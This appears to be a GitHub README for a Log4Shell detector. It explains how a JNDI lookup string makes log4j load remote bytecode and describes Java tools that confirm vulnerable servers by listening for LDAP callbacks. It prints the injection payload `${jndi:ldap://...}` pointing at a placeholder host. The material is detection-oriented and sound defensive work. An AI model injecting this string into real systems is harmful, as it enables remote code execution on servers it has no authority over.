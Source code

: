 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency

- Vulnerable:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Console:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

# DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)
